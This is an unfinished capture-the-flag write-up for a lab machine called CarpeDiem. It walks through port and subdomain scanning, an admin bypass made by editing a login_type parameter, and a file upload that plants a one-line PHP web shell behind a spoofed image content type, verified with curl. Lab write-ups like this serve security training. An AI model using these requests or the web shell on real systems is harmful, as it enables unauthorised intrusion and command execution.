 # CarpeDiem (WIP)

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.179
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-11 05:45 EDT
Nmap scan report for 10.129.227.179
Host is up (0.014s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Web Enum

Port 80 hosted a website that had a countdown to a domain being launched.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

There was nothing interesting about this website. The search there is static. We can do a `gobuster` directory and `wfuzz` subdomain scan. `gobuster` only picked up on static site files, but `wfuzz` picked up on a `portal` endpoint:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H 'Host:FUZZ.carpediem.htb' --hw=161 -u http://carpediem.htb  /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://carpediem.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000048:   200        462 L    2174 W     31090 Ch    "portal"
```

### Admin Bypass --> File Upload

This was running some motorcycle store portal:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

We can create an account with the site. After registering, we can update our profile:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

This is the request generated:

{% code overflow="wrap" %}
```http
POST /classes/Master.php?f=update_account HTTP/1.1
Host: portal.carpediem.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 115
Origin: http://portal.carpediem.htb
Connection: close
Referer: http://portal.carpediem.htb/?p=edit_account
Cookie: PHPSESSID=23b68a0603f55733b3d5172c5121111a



id=25&login_type=2&firstname=test&lastname=test&contact=test&gender=Male&address=test123&username=test123&password=
```
{% endcode %}

There's a `login_type` parameter set at 2, so let's change that to 1 and we might become an administrator. I tested this by visiting `/admin` and it worked:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

When looking around, we can see there's a Quartely Sales Report part hwhere we can upload files:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

The upload functions still being in development might mean this is vulnerable. I tried clicking on Add, but it did nothing. When inspecting the traffic, we can see it making POST requests to `/classes/users.php?f=upload`.&#x20;

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

This accepts form-data and also is a PHP-based website (as from X-Powered-By), so let's try to upload a PHP webshell. I took some requests I had from other machines / scripts that also uploaded form-data.&#x20;

```http
POST /classes/Users.php?f=upload HTTP/1.1
Host: portal.carpediem.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Origin: http://portal.carpediem.htb
Connection: close
Referer: http://portal.carpediem.htb/admin/?page=maintenance/files
Cookie: PHPSESSID=23b68a0603f55733b3d5172c5121111a
Content-Type: multipart/form-data; boundary=---------------------------9051914041544843365972754266
Content-Length: 268

-----------------------------9051914041544843365972754266
Content-Disposition: form-data; name="file_upload"; filename="a.html"
Content-Type: text/html

<!DOCTYPE html><title>Content of a.html.</title>

-----------------------------9051914041544843365972754266--
```

The above request works and it will be uploaded:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Now we can try to upload a PHP webshell using an image in `Content-Type` because there's a check for that.&#x20;

```http
POST /classes/Users.php?f=upload HTTP/1.1
Host: portal.carpediem.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Origin: http://portal.carpediem.htb
Connection: close
Referer: http://portal.carpediem.htb/admin/?page=maintenance/files
Cookie: PHPSESSID=23b68a0603f55733b3d5172c5121111a
Content-Type: multipart/form-data; boundary=---------------------------9051914041544843365972754266
Content-Length: 253



-----------------------------9051914041544843365972754266
Content-Disposition: form-data; name="file_upload"; filename="b.php"
Content-Type: image/png

<?php system($_REQUEST['cmd']); ?>

-----------------------------9051914041544843365972754266--
```

Then we can verify it works:

```
$ curl http://portal.carpediem.htb/uploads/1683799320_b.php?cmd=id      
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then, we can get an easy reverse shell.

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## Docker Escape

### MySQL Creds

